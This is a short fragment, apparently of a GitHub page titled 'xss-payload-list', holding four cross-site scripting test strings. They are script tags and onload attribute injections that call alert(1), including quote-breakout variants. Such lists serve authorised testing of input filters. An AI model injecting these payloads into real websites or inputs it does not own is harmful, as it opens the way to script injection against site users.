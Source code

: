 # xss-payload-list

<script>alert(1)</script>

“><script>alert(1)</script>

ds" onload="alert(1)

ds" onload="alert(1)"

